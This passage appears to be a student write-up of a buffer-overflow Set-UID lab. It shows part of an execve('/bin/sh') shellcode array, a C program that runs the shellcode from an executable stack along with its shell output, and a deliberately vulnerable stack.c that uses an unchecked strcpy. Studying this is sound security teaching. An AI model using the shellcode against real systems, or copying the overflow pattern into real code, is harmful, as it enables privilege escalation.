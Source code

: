 ```c
  "\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\x31"
  "\xd2\x31\xc0\xb0\x0b\xcd\x80"
#endif
;

int main(int argc, char **argv)
{
   char code[500];

   strcpy(code, shellcode);
   int (*func)() = (int(*)())code;

   func();
   return 1;
}
```

Compile and the run the <code>call_shellcode.c</code> program:

```console
~/Documents/BufferSetUID/shellcode$ make
gcc -m32 -z execstack -o a32.out call_shellcode.c
gcc -z execstack -o a64.out call_shellcode.c
~/Documents/BufferSetUID/shellcode$ ./a32.out
$ echo -ne 'Don't go gentle into that good night/'
> .!?'
Dont go gentle into that good night/
.!?%
$ exit
~/Documents/BufferSetUID/shellcode$ ./a64.out
$ echo -ne 'Oh Danny Boy the pipes the pipes are calling.'
Oh Danny Boy the pipes the pipes are calling.%
```

## Task 2: Understanding the Vulnerable Program

The <code>stack.c</code> program shown below reads $517$ bytes of data from a file called "<code>badfile</code>", and then copies the data to a buffer of size $100$:

```c
/* stack.c */
#include <stdlib.h>
#include <stdio.h>
#include <string.h>

/* Changing this size will change the layout of the stack.
 * Instructors can change this value each year, so students
 * won't be able to use the solutions from the past.
 */
#ifndef BUF_SIZE
#define BUF_SIZE 100
#endif

void dummy_function(char *str);

int bof(char *str)
{
    char buffer[BUF_SIZE];

    // The following statement has a buffer overflow problem 
    strcpy(buffer, str);

    return 1;
}

```

[^1]: See "Daniel P. Bovet and Marco Cesati, *Understanding the Linux Kernel, Third Edition*, O'Reilly, 2006."
[^2]: A privileged program is one that can give users extra privileges beyond that are already assigned to them. A Set-Root-UID program is a privileged program because it allows users to gain the root privilege during the execution of the programs. For Set-UID programs in UNIX and UNIX-like operating systems, which stands for **set user ID on execution**, the effective <code>uid</code> is the owner of the program, while the real <code>uid</code> is the user of the program. Windows does not have the notion of Set-UID. A different mechanism is used for implementing privileged functionality. A developer would write a privileged program as a service and the user sends the command line arguments to the service using Local Procedure Call.
[^3]: Continue to the next source line in the current (innermost) stack frame. This is similar to <code>step</code>, but function calls that appear within the line of code are executed without stopping. Execution stops when control reaches a different line of code at the original stack level that was executing when you gave the <code>next</code> command.